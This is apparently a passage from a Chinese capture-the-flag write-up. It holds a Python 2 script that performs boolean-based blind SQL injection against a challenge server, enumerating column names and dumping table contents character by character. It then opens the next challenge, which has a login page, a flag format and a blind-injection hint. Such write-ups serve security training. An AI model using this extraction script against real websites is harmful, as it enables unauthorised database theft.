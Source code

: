 ```
        for p in xrange(0,20):
            column_name = ''
            for q in xrange(1,20):
                key = 0
                for i in temp:
                    url_columns = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and ascii(mid((select column_name  from information_schema.columns where table_schema=%27'+schema_name+'%27 and%20table_name=%27'+table_name+'%27limit '+str(p)+',1),'+str(q)+',1))=ascii(\''+str(i)+'\')%23'
                    s = requests.get(url_columns)
                    if "Hello" in s.text:
                        key = 1
                        column_name = column_name + str(i)
                if key ==0:
                    break
            if column_name == '':
                break
            print 'a column name of '+table_name+' is '+column_name
            for y in xrange(0,10):
                data = ''
                for z in xrange(1,20):
                    key = 0
                    for i in temp_data:
                        url_data = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and ascii(mid((select '+column_name+' from%20`'+schema_name+'`.'+table_name+' limit%20'+str(y)+',1),'+str(z)+',1))=ascii(\''+str(i)+'\')%23'
                        s = requests.get(url_data)
                        if "Hello" in s.text:
                            data = data + str(i)
                            key = 1
                    if key == 0:
                        break
                if data == '':
                    break
                print ('one data of '+schema_name+'.'+table_name+'\'s '+column_name+' is '+data)


length_schema()
schema_name()
all()
```





## 3、**

<http://123.206.31.85:49167/>
flag格式：SKCTF{xxxxxxxxxxxxx}
hint：基于布尔的SQL盲注

这题简单，用户名是admin  尝试注入 有两种返回结果  username does not exist!和password error!

